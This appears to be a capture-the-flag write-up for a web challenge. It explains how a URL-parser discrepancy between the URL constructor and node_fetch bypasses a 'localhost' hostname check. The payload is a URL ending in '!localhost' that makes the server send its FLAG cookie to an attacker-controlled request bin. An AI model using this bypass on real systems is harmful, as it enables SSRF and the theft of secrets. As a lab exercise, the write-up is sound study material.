





# solution

This challenge is very exciting for me. You can easily know what to do, but need some knowledges to achive the flag.

```
try {
    const urlObject = new URL(url);
    host = urlObject.hostname;

    if (host !== "localhost" && !host.endsWith("localhost")) return res.send("rejected");
  } catch (error) {
    return res.send("Invalid Url");
  }

  try {
    let result = await node_fetch(url, {
      method: "GET",
      headers: { "Cookie": `FLAG=${FLAG}` },
    });
    const data = await result.text();
    res.send(data);
  } catch {
    return res.send("Request Failed");
  }
});
```

This part of source code should be focused. Idea is bypass **if (host !== "localhost" && !host.endsWith("localhost"))**. After searching and find some hints i see this site. **https://toss.tech/article/nodejs-security-contribution** you can translate in your language to read it. I can summarize what is the key for this challenge.
<br>

So you use URL(url) funtion when i put some url like this **https://xptwgbj.request.dreamhack.games!localhost**. Host is xptwgbj.request.dreamhack.games!localhost. But for node_fetch host will become xptwgbj.request.dreamhack.games and **!localhost** become a path. So we can bypass the if condition above but still accessible for node_fetch (path really not effect the host, so dreamhack's server still visit https://xptwgbj.request.dreamhack.games and give us a cookie flag). Btw i use dreamhack tool for this challenge, just type dreamhack tool onl google and go to **Request Bin**
<br>

<br>
